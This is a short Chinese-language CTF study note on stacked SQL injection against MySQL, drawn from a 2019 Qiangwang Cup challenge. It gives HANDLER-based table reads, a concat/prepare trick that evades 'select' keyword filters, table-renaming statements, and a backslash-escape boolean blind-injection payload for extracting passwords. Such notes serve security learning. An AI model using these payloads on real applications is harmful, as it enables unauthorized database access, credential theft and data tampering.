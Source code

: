 # 堆叠注入

参考[2019强网杯随便注](https://www.cnblogs.com/xhds/p/12269987.html)

## 1.通过handler语句查询users表的内容

```mysql
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec close; #关闭句柄
```

所以可通过1';handler FlagHere open;handler FlagHere read first;#读取数据

需要通过mysql语句先获得表名，如show tables;

## 2.mysql原生语句获得表名等

```mysql
show tables;	//获得所有表名
show columns from words;	//获得列名
rename table `words` to `words1`;	//将words表名改成words1
alter table 表名 change 旧列名 新列名 类型;
alter table 表名 add 列名 数据类型;		//删除用drop 列名即可
```

## 3.Mysql预处理语句prepare、execute、set

```mysql
set @a=concat("sel","ect flag from `1919810931114514`");
prepare hello from @a;	//为上面set的sql语句取个别名
execute hello;	//执行hello即执行设置的sql语句
```

## 4.未过滤\

select * from users where username='$_POST["username"]' and password='$_POST["password"]';

若username=admin\

输入的\会把$_POST["username"]后面的单引号转义失效，sql语句变成了

```sql
select username,password from user where username='admin\' and password=' or 1#'
```

这时可用盲注爆出密码

username=admin\    password=or (ascii(substr(password,1,1))>65)#

题目当语句正确和不正确是不一样的界面，循环判断第n位的数值

比如第一位是O,ascii码为79，第一位大于65语句正确，接着判断地位大于66正确，直至第一位大于79吗，不大于，所以会出现与前面不一样的界面